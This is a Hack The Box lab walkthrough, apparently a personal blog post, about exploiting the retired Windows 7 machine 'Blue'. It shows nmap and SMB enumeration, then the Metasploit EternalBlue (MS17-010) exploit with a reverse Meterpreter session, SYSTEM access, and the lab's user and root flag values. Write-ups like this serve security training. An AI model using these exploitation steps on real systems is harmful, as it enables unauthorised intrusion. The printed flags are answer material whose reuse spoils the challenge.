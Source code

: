```yaml
---
title: "Blue (HTB) — Walkthrough"
date: 2025-09-17
tags: ["htb","windows","smb","ms17-010","privesc"]
series: ["Hack The Box — retired"]
difficulty: "Easy"
platform: "Hack The Box"
summary: "Exploiting MS17-010 (EternalBlue) on a Windows 7 SP1 target. Recon, SMB enumeration, exploitation, and proof of SYSTEM access."
---
```


> ⚠️ **Spoiler warning**: This covers a retired HTB machine. IPs and hostnames are redacted. This writeup documents my playthrough of the retired Hack The Box machine **Blue**. 

The VPN IPs shown below are the HTB-assigned VPN addresses used during the box (left intact here for reproducibility). Do not attempt this on non-authorised or active systems.

# Blue (HTB) — Walkthrough

## Overview
- **Platform:** Hack The Box (retired)  
- **Target OS:** Windows 7 Professional SP1  
- **Focus:** SMB enumeration → EternalBlue (MS17-010) → SYSTEM shell  
- **Difficulty:** Easy

---

## Recon

Initial scan:

```bash
nmap -sV -sC -oN scans/blue-initial 10.129.242.117
```
**Result highlights (relevant line)**

445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1
A full scan confirmed SMB was exposed and appeared to be running SMBv1.
![Nmap ports output showing SMB 445 open](/images/blue/nmap.png)


---

## SMB Enumeration

**Anonymous enumeration with enum4linux**

```bash
enum4linux -a 10.129.242.117
```
![enum4linux for SMB enumeration](/images/blue/smb_enumeration.png)

![enum4linux interesting output](/images/blue/smb_enumeration.png)

**Anonymous SMB session also succeeded**

```bash
smbclient -L //10.129.242.117/ -N
```

Shares observed:

ADMIN$    C$    IPC$    Share    Users

Given Windows 7 + SMBv1 exposure, EternalBlue (MS17-010) looked likely.
![SMB shares](/images/blue/smb_shares.png)

---

## Exploitation (MS17-010 / EternalBlue)

Check target with Metasploit's SMB version scanner:

```msfconsole
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.129.242.117
msf6 auxiliary(scanner/smb/smb_version) > run
```
**Confirmed vulnerable** 

[+] 10.129.242.117:445 - Host is running Windows 7 Professional SP1
![Metasploit auxiliary module - SMB scanner](/images/blue/metasploit_scanner.png)


**Host is likely VULNERABLE to MS17-010!**

---

## Launch the exploit:

```msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.129.242.117
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```
![Metasploit exploit module - ms17_010_eternalblue](/images/blue/metasploit_exploit.png)


**Success:**

[+] Meterpreter session 1 opened
![Meterpreter session to shell](/images/blue/meterpreter_shell.png)


---

## Privilege Escalation

Drop into an interactive shell from Meterpreter:

```meterpreter
meterpreter > shell
```
```interactive shell
C:\Windows\system32> whoami
```
**Result:**

nt authority\system
The exploit provided full SYSTEM privileges.

**User flag:**

```interactive shell
C:\Users\haris\Desktop> type user.txt
```
"1b3265edfce880834b5e8e8fc8ac5a18"
![User flag found](/images/blue/user-flag.png)

**Root flag:**

```interactive shell
C:\Users\Administrator\Desktop> type root.txt
```
"76a957ccd469d05e2883b49b77079847"
![Root flag found](/images/blue/root-flag.png)

---

## Takeaways

Always check SMB version — legacy SMBv1 is a red flag.

EternalBlue is a classic exploit; patched since 2017, but still useful to study.

Metasploit automates exploitation, but understanding the underlying vulnerability (buffer overflow in SMBv1) is important.

Enumeration (enum4linux, smbclient) confirmed access, but exploitation was the real path in this box.

---

## Resources

MS17-010 (Microsoft Security Bulletin).

Hack The Box — retired machines archive.

My GitHub repo (basil9099.github.io) with scans/notes.
